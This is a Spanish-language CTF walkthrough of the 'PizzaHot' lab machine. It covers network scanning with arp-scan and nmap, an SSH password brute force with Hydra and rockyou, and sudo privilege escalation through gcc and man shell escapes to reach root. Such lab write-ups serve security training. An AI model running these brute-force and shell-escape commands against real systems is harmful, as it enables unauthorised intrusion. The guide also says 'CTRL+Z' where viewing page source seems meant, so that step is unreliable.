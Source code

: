 # PizzaHot

Maquinas que vamos a utilizar Kali Linux y PizzaHot [https://thehackerslabs.com/pizzahot/](https://thehackerslabs.com/pizzahot/)

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%20129.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=1000 -n -vvv -Pn 10.0.3.33
```

![image.png](./imagenes/image%20130.png)

- Vamos a ver lo que corre por el puerto 80 en el explorador web
    
    ![image.png](./imagenes/image%20131.png)
    
- Miramos el código base
    
    `CTRL+Z`
    
    ![image.png](./imagenes/image%20132.png)
    
    Nos encontramos un comentario curioso que puede ser una pista de un nombre de usuario **“pizzapiña”.**
    
- Probamos un ataque con Hydra a SSH con el posible usuario encontrado.
    
    ```bash
    hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.33
    ```
    
    ![image.png](./imagenes/image%20133.png)
    
    Tenemos el usuario y la contraseña de SSH. **login: pizzapiña   password: steven.**
    
- Probamos las credenciales de SSH.
    
    ```bash
    ssh pizzapiña@10.0.3.33 
    ```
    
    ![image.png](./imagenes/image%20134.png)
    

- Hacemos un listado de privilegios con **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20135.png)
    
    Vemos que el usuario pizzassinpiña tiene permisos de ejecución de gcc
    
- Utilizamos la web [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para ver si tiene vulnerabilidades **/usr/bin/gcc** .
    
    ![image.png](./imagenes/image%20136.png)
    
    `sudo gcc -wrapper /bin/sh,-s .`
    
    Nos quedaría así el comando:  `sudo -u pizzasinpiña /usr/bin/gcc -wrapper /bin/sh,-s .`
    

- Lo probamos
    
    `sudo -u pizzasinpiña /usr/bin/gcc -wrapper /bin/sh,-s .`
    
    `whoami`
    
    ![image.png](./imagenes/image%20137.png)
    
- Volvemos a listar privilegios **sudo -l**
    
    `sudo -l`
    
    ![image.png](./imagenes/image%20138.png)
    
- Miramos **man** en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    ![image.png](./imagenes/image%20139.png)
    
- Vamos a probarlo
    
    `sudo -u root man man` 
    
    `!/bin/sh`
    
    `whoami`
    
    ![image.png](./imagenes/image%20140.png)
    
    ![image.png](./imagenes/image%20141.png)
    
    ![image.png](./imagenes/image%20142.png)
  
